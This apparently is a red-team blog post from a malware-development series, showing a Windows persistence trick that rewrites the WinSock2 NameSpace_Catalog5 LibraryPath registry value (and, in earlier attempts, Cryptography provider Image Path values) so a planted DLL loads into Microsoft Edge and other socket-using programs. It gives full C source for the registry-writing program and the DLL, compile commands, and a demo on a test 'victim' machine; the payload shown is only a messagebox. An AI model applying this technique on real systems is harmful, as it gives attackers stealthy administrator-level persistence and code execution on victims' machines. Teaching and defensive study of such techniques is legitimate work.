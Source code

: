 ```yaml
---
title:  "Malware development: persistence - part 26. Microsoft Edge - part 1. Simple C example."
date:   2024-08-14 03:00:00 +0300
header:
  teaser: "/assets/images/132/2024-08-19_21-36.png"
categories:
  - persistence
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/132/2024-08-19_21-36.png){:class="img-responsive"}    

This post came about in preparation for a workshop on *Malware Persistence techniques* that I teach at various conferences in Europe and Asia. This post shows that interesting persistence methods can be found via [Sysinternals Procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) via filters, this is a well-known and popular method, I just want to show it in practice. In my case, everything worked out thanks to one of the registry keys that is used by many applications of the operating system, in particular Microsoft Edge:      

```powershell
"HKLM\System\CurrentControlSet\Services\WinSock2\Parameters\NameSpace_Catalog5\Catalog_Entries64\000000000007"
```

Apparently this registry path is used by all applications that work with sockets.     

### practical example

First of all, I just start with simple filters in Procmon, like this:     

![pers](/assets/images/132/2024-08-14_14-23_1.png){:class="img-responsive"}     

As a result we will get many many interesting records:      

![pers](/assets/images/132/2024-08-14_14-23.png){:class="img-responsive"}     

As you can see, we can replace different registry key values:    

![pers](/assets/images/132/2024-08-14_14-24.png){:class="img-responsive"}     

As an experiment I decided to replace one of these DLLs.    

In C it's looks like this:    

```cpp
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious DLL
  const char* dll = "Z:\\hack.dll";

  // RSA
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Cryptography\\Defaults\\Provider\\Microsoft Strong Cryptographic Provider", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"Image Path", 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }
  return 0;
}
```

or another value:    

```cpp
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious DLL
  const char* dll = "Z:\\hack.dll";

  // RSA???
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Cryptography\\Defaults\\Provider\\Microsoft Enhanced RSA and AES Cryptographic Provider", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"Image Path", 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }
  return 0;
}
```

It certainly worked:     

![pers](/assets/images/132/2024-08-14_14-16.png){:class="img-responsive"}     

But the caveat is that the entire operating system froze after this and even the antivirus started freeze.    

So i decided to start a new search:     

![pers](/assets/images/132/2024-08-19_21-53.png){:class="img-responsive"}     

After a long search I found another interesting key and value in the registry:     

```powershell
reg query "HKLM\System\CurrentControlSet\Services\WinSock2\Parameters\NameSpace_Catalog5\Catalog_Entries64\000000000007" /s
```

![pers](/assets/images/132/2024-08-20_13-02.png){:class="img-responsive"}     

and tried to replace it. For this just update `LibraryPath` value:    

```cpp
/*
 * hack.c
 * Microsoft Edge
 * persistence trick v1.0
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/08/14/malware-pers-26.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious DLL
  const char* dll = "Z:\\hack.dll";

  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"System\\CurrentControlSet\\Services\\WinSock2\\Parameters\\NameSpace_Catalog5\\Catalog_Entries64\\000000000007", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry keys
    RegSetValueEx(hkey, (LPCSTR)"LibraryPath", 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, the code is pretty simple as usual, just set value via `RegSetValueEx` function. In my case, `hack.dll` - just `meow-meow` messagebox:    

```cpp
/*
 * hack.c
 * "malware" for Microsoft Edge
 * persistence trick
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/08/14/malware-pers-26.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBoxA(NULL, "Meow-meow!!", "=^..^=", MB_OK);
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

### demo

Let's check everything in action.     

Compile our `meow-meow` "malware" `hack.c`:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![malware](/assets/images/132/2024-08-20_13-08.png){:class="img-responsive"}      

And compile persistence script:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![malware](/assets/images/132/2024-08-20_13-08_1.png){:class="img-responsive"}      

Then, run it on test victim's machine (Windows 11 x64):    

```powershell
.\pers.exe
```

![malware](/assets/images/132/2024-08-20_13-14.png){:class="img-responsive"}      

As you can see, registry key value is successfully updated. Note that we need Administrative privleges for update this Registry value.        

Then, try to open `Microsoft Edge`:    

![malware](/assets/images/132/2024-08-19_21-35.png){:class="img-responsive"}     

![malware](/assets/images/132/2024-08-19_21-33.png){:class="img-responsive"}     

![malware](/assets/images/132/2024-08-19_21-34.png){:class="img-responsive"}     

For the correctness of the experiment, we will launch our Process Hacker 2 and check memory:    

![malware](/assets/images/132/2024-08-19_21-46.png){:class="img-responsive"}     

![malware](/assets/images/132/2024-08-19_21-46_1.png){:class="img-responsive"}     

As you can see, `hack.dll` started correctly, the same effect will be for other Windows programs, even `Procmon64.exe`. I assume the behavior will be the same if you open anything that uses Windows sockets. To be honest, I don't know what this particular registry parameter is used for, but it seems to have something to do with sockets.        

> This is a practical case for educational purposes only.     

[Windows Sockets](https://learn.microsoft.com/en-us/windows/win32/winsock/windows-sockets-start-page-2)     
[Malware persistence - part 1. Registry run keys](/tutorial/2022/04/20/malware-pers-1.html)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-08-14-malware-pers-26)    

Thanks for your time happy hacking and good bye!         
*PS. All drawings and screenshots are mine*       
